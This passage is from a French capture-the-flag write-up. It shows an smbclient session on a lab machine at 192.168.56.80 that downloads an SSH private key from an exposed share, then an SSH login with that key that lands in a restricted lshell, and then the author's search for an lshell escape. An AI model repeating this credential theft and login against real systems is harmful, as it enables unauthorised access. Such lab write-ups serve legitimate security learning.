 ```shellsession
  .ssh                               DH        0  Thu Apr 18 18:42:57 2019
  flag.txt                            N       32  Thu Apr 18 18:14:18 2019

                32894736 blocks of size 1024. 27322872 blocks available
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Thu Apr 18 18:42:57 2019
  ..                                  D        0  Thu Apr 18 18:55:51 2019
  authorized_keys                     N      399  Thu Apr 18 18:42:57 2019
  id_rsa                              A     1679  Thu Apr 18 18:14:17 2019
  id_rsa.pub                          A      399  Thu Apr 18 18:14:17 2019

                32894736 blocks of size 1024. 27322872 blocks available
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (409,9 KiloBytes/sec) (average 409,9 KiloBytes/sec)
smb: \.ssh\> pwd
Current directory is \\192.168.56.80\Private\.ssh\
smb: \.ssh\> get id_rsa.pub
getting file \.ssh\id_rsa.pub of size 399 as id_rsa.pub (97,4 KiloBytes/sec) (average 253,7 KiloBytes/sec)
```

## Prison break

J'ai choppé la clé privée SSH comme ça on peut obtenir notre shell mais on découvre bien vite qu'il est limité :

```
$ ssh -i id_rsa harrison@192.168.56.80

Welcome to Harrison. Enjoy your shell.

Type '?' or 'help' to get the list of allowed commands
harrison:~$ id
*** forbidden command: id
```

Une recherche sur le web pour la phrase *to get the list of allowed commands* nous retourne des références à `lshell` déjà croisé sur [Kioptrix: 1.3](https://github.com/devl00p/blog/blob/db5fe862db386ad078af26f79dd725069530ef5e/ctf_writeups/Solution%20du%20CTF%20Kioptrix:%201.3%20de%20VulnHub.md#i-wont-let-it-happen).

Certaines erreurs sont encore plus parlantes :

```
harrison:~$ cd --help
lshell: --help: No such file or directory
```

Sur Kioptrix je m'en était sorti avec une vulnérabilité dans lshell qui consistait à appeler du code Python mais là ça ne fonctione pas.

J'ai fouillé dans les issues du projet Github de `lshell` et je suis tombé sur celle ci : [Prevent shell execution tag in command parameters](https://github.com/ghantoos/lshell/issues/205)
